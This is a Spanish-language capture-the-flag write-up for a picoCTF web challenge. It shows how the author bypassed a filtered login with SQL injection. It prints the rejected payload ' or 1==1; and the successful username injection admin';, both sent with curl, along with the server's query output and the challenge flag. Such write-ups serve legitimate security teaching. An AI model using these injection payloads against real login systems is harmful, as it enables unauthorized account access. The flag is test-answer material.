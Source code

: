 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Hints
+ The password is being filtered.


## Solución

intentando hacer inyeccion SQL :  
``` sql  
'  or 1==1; 
```

``` bash
┌─[ramdark@parrot]─[~]
└──╼ $curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin&password=' or 1==1;&debug=1"
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>SQLi detected.</h1>┌─[ramdark@parrot]─[~]
└──╼ $
```


``` bash 
┌─[ramdark@parrot]─[~]
└──╼ $curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>┌─[ramdark@parrot]─[~]
└──╼ $

```


## Flag

``` picoCTF{m0R3_SQL_plz_aee925db} ```


## Notas adicionales

utilizando una inyección como: " ' ; " permite indicar que todo lo que sigue despues del signo de punto y coma se ignore. Asi que al introducir de esta manera el nombre de usuario ignorará el password de este. 


## Referencias
+ [SQL injection](https://portswigger.net/web-security/sql-injection)